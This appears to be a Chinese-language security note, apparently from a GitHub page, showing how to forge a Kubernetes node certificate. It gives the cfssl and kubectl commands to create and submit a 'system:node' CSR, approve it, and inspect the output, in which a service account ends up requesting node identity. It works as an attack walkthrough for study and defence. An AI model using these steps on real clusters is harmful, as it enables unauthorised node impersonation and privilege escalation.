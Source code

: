
### 尝试申请node节点的证书获取node的控制权

这里假设集群中存在一个名字为`k8sworker1.example.net`的`node`节点

为这个`node`创建一个`csr`

```shell
cat <<EOF | ./cfssl_1.6.3_linux_amd64 genkey - | ./cfssljson_1.6.3_linux_amd64 -bare k8sworker1.example.net
{
	"CN": "system:node:k8sworker1.example.net",
	"key": {
		"algo": "rsa",
		"size": 2048
	},
	"names": [
		{
			"O": "system:nodes"
		}
	]
}
EOF
```

执行成功后会在当前目录下创建`k8sworker1.example.net.csr`和`k8sworker1.example.net-key.pem`两个文件

接下来向apiserver提交csr请求

```yaml
cat <<EOF | kubectl --validate=false apply -f -
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  name: k8sworker1.example.net
spec:
  groups:
    - system:nodes
  request: $(cat ./k8sworker1.example.net.csr | base64 | tr -d '\n')
  signerName: kubernetes.io/kube-apiserver-client-kubelet
  usages: ["key encipherment", "digital signature", "client auth"]
EOF
```

如何选择signerName，以及如何构造提交csr request的yaml可以参考：[kubernetes签名者](https://kubernetes.io/zh-cn/docs/reference/access-authn-authz/certificate-signing-requests/#kubernetes-signers)

执行完成后可以通过`kubectl get csr k8sworker1.example.net` 看到当前csr请求处于Pending状态

执行`kubectl certificate approve k8sworker1.example.net` 通过当前csr请求，内容如下：

```yaml
apiVersion: certificates.k8s.io/v1
kind: CertificateSigningRequest
metadata:
  annotations:
    kubectl.kubernetes.io/last-applied-configuration: |
      {"apiVersion":"certificates.k8s.io/v1","kind":"CertificateSigningRequest","metadata":{"annotations":{},"name":"k8sworker1.example.net"},"spec":{"groups":["system:nodes"],"request":"xxxxxxx","signerName":"kubernetes.io/kube-apiserver-client-kubelet","usages":["key encipherment","digital signature","client auth"]}}
  creationTimestamp: "2023-02-23T14:40:58Z"
  name: k8sworker1.example.net
  resourceVersion: "6093073"
  uid: 523e4f9a-2bb2-497c-8f41-3a3adb5d9b00
spec:
  groups:
  - system:serviceaccounts
  - system:serviceaccounts:default
```